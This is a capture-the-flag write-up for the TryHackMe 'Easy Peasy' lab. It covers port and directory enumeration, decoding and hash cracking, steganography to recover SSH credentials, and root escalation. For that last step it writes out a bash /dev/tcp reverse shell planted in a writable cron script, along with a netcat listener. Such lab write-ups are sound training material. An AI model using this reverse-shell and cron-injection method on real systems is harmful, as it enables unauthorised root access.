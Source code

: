 # CTF-Write-up

## Try Hack Me - Easy Peasy

 URL: https://tryhackme.com/room/easypeasyctf

 Created by _https://tryhackme.com/p/kral4_

![logo](https://user-images.githubusercontent.com/20625004/114728013-61900780-9d47-11eb-8f19-a100e1fa566d.PNG)

 You should deploy the machine first.

 Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

 Run nmap against the target machine, here we are going for all ports.

```nmap -sC -A -p- <target IP>```

 The output of the ``nmap`` should provide you with the three questions of task1.

 Now lets move on task2.

 From previous step we found some services.

![ngingx](https://user-images.githubusercontent.com/20625004/114729262-7b7e1a00-9d48-11eb-809e-f66518542c51.PNG)

 Fire ``gobuster``

 ``gobuster dir -u <target ip>:80 -w /path/to/wordlist``

 We found a path ``/h....``.

 There is a picture and the source code does not reveal anything.

 Lets use again ``gobuster`` 

``gobuster dir -u <target ip>/h...:80 -w /path/to/wordlist``

 OK we found another path.

![path](https://user-images.githubusercontent.com/20625004/114729794-fb0be900-9d48-11eb-8d3f-5ee65b5626f9.PNG)

 There is another picture, lets view the source code.

![flag1](https://user-images.githubusercontent.com/20625004/114730020-2b538780-9d49-11eb-829d-3a0b759357f2.PNG)

 This seems to be a base64 encoding. Lets decode it.

`` echo "base64" | base64 -d``

![flag1_1](https://user-images.githubusercontent.com/20625004/114730553-a4eb7580-9d49-11eb-9f92-bf204b1e7286.PNG)


 We found the first flag.

 Lets move on the second flag.

 From task 1 we found some services. Lets access the other web port.

![http](https://user-images.githubusercontent.com/20625004/114731182-32c76080-9d4a-11eb-9f5d-dda4a03bafb6.PNG)

 Again fire ``gobuster`` with the new higher http port. 

``gobuster dir -u <target ip>:Port -w /path/to/wordlist``

 Check robots.txt

![useragent](https://user-images.githubusercontent.com/20625004/114731499-79b55600-9d4a-11eb-98fa-9c180fa64163.PNG)

 It looks like a hash lets check it.

 To check for hashes types i am using the below tools.

 ``https://github.com/HashPals/Name-That-Hash``
 ``https://github.com/noraj/haiti/``

![second_flag](https://user-images.githubusercontent.com/20625004/114731871-c00ab500-9d4a-11eb-9136-660cc368d965.PNG)

 Lets decrypt it. 
 We may know it is a md5, but we cannot crack it. After searching around i found this website: ``https://md5hashing.net/``.

![second_flag_1](https://user-images.githubusercontent.com/20625004/114733229-d7966d80-9d4b-11eb-9d7d-62534d81a46c.PNG)

 And we have the second flag.

 Moving on the third flag.

 Searching around using ``gobuster`` to find new paths i was not able to find something helpful. 
 After a lot of trials and errors i looked the view source of the default apache page.
 In plaintext there is the third flag. 

![flag3](https://user-images.githubusercontent.com/20625004/114734963-65268d00-9d4d-11eb-9cb7-8393d5d13f54.PNG)

 Now for the hidden directory?

 Again after a lot of enumeration i was not able to find something. 
 I started and manually searched all web pages from both web ports.
 Finaly again on the default apache web page we found something useful.

![hidden](https://user-images.githubusercontent.com/20625004/114735620-0b729280-9d4e-11eb-9033-f1bc43da9c03.PNG)

 There is a hint of the encoding. Lets try base64, base62. 

 It is base62 i used this site ``https://www.better-converter.com/Encoders-Decoders/Base62-Decode``.

![base62](https://user-images.githubusercontent.com/20625004/114736195-8e93e880-9d4e-11eb-82f4-f3f07f3a366d.PNG)

 And we found the hidden directory.

 Lets access it.

![directory](https://user-images.githubusercontent.com/20625004/114736815-1aa61000-9d4f-11eb-8176-28e1b4b556e2.PNG)

 Move on to the next question ``Using the wordlist that provided to you in this task crack the hash. what is the password?``.

 There is another hash lets use it with the ``easypeasy.txt`` wordlist and with ``john``.
 The hint tell us that it is GOST hash.

``john --format=GOST hash.txt --wordlist=easypeasy.txt``

![cracked](https://user-images.githubusercontent.com/20625004/114737260-84261e80-9d4f-11eb-876d-8ed9e9827340.PNG)

 And we have the answer to the question.

 We move on to the SSH password. Remember from nmap on task 1, SSH is not running on port 22 but on another.

![directory](https://user-images.githubusercontent.com/20625004/114736445-c438d180-9d4e-11eb-8fe3-d05c3d154854.PNG)

 By viewing the source page of the previous page we found a picture, download it.

![picture](https://user-images.githubusercontent.com/20625004/114737967-31993200-9d50-11eb-8be1-dabef7ef5d7f.PNG)

![picture2](https://user-images.githubusercontent.com/20625004/114737985-365de600-9d50-11eb-9843-86ab6300addc.PNG)

``wget http://<Target IP>:port/path/binarycodepixabay.jpg``

 We are using ``steghide``.

``steghide extract -sf binarycodepixabay.jpg``

 After some trials and errors i used the password we found on the previous step and we got access to a txt file.

![pass](https://user-images.githubusercontent.com/20625004/114738823-ffd49b00-9d50-11eb-91e0-917c3b1606c5.PNG)

 We found a username and a password. There were a lot of binary numbers, and i converted the binary content with the below web site.

``https://cryptii.com/pipes/binary-decoder``.

![ssh](https://user-images.githubusercontent.com/20625004/114739142-4a561780-9d51-11eb-9fc2-4c3067dc7d18.PNG)

 Now we have retrieved the username and the password of the SSH user.

 Access SSH with the new information.

``ssh XXX@targetIP -p port``

![ssh_access](https://user-images.githubusercontent.com/20625004/114739636-bafd3400-9d51-11eb-9d6d-921ece3a4ac3.PNG)

 Lets find the user flag.

 In home directory there is ``user.txt``.

![rot](https://user-images.githubusercontent.com/20625004/114739877-f697fe00-9d51-11eb-8f1c-46f8ce638d62.PNG)

 Another hash, but there is a hint ``Rotated`` seems it is ROT13.

 Use ``https://rot13.com/``

![rot13](https://user-images.githubusercontent.com/20625004/114740189-4b3b7900-9d52-11eb-9991-daf7bca2ba55.PNG)

 And we have found the user flag.

 Move on the privilege escalation in order to found the last flag.

 CTF informed us about a vulnerable crontab. Lets search.

![crontab](https://user-images.githubusercontent.com/20625004/114740592-aa998900-9d52-11eb-8c43-d9a424e359a0.PNG)

 Ok we found a bash script called, ``.mysecretcronjob.sh``.

 Move on the destination path to see what is going on.

![script](https://user-images.githubusercontent.com/20625004/114740914-f64c3280-9d52-11eb-9bb9-74d1a3d6ba87.PNG)

 It seems that we have read write and execute permissions, simply open the file with ``nano`` and add a reverse shell.

``bash -i >& /dev/tcp/'Your IP'/4444 0>&1``

 On your machine set up a netcat listener:

``nc -lnvp 4444``

 Then execute the script.

 Notice  on your machine that we have access on the system as root.

![root](https://user-images.githubusercontent.com/20625004/114741754-c2bdd800-9d53-11eb-85f0-002f91e5def4.PNG)

 On ``/root`` directory there is the ``.root.txt``, use ``ls -la`` command as the file is hidden.

 And we have found the last flag.





